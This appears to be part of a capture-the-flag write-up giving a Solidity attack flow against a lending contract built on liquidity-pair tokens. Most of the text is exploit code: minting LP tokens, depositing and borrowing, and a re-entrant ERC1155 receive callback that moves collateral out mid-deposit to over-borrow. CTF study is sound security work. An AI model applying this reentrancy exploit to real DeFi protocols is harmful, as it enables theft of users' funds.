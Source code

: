 ### Attack Flow

1. Initial Setup and LP Token Creation:
```solidity
// Transfer initial tokens to the pair
usdc.transfer(address(pair), 1000e6);
usdt.transfer(address(pair), 1000e6);

// Create LP tokens
bytes32[] memory liquidityConfig_init = new bytes32[](1);
liquidityConfig_init[0] = LiquidityConfigurations.encodeParams(1e18, 1e18, pair.getActiveId());
pair.mint(address(this), liquidityConfig_init, address(this));
```

2. First Deposit and Initial Borrowing:
```solidity
// Deposit most LP tokens, keeping a small amount
amounts_init[0] = pair.balanceOf(address(this), pair.getActiveId()) - 1000;
joe_lending.deposit(ids_init, amounts_init);

// Send some LP tokens to second contract
amounts_init[0] = 100;
pair.batchTransferFrom(address(this), address(EXPLOIT2), ids_init, amounts_init);
EXPLOIT2.exploit_pre();

// Borrow maximum USDJ
amounts_init[0] = 1000e18;
joe_lending.borrow(ids_init, amounts_init);
```

3. The Critical Callback Exploitation:
```solidity
function onERC1155Received(
    address operator,
    address from,
    uint256 id,
    uint256 value,
    bytes calldata data
) external returns (bytes4) {
    counter++;

    if (counter == 2) {
        // During the callback from a small deposit, transfer all tokens
        JoeLending joe_lending = CHALLENGE.JOE_LENDING();
        joe_lending.safeTransferFrom(
            address(this), 
            address(EXPLOIT2), 
            id, 
            joe_lending.balanceOf(address(this), id), 
            ""
        );
    }
    return bytes4(keccak256("onERC1155Received(address,address,uint256,uint256,bytes)"));
}
```
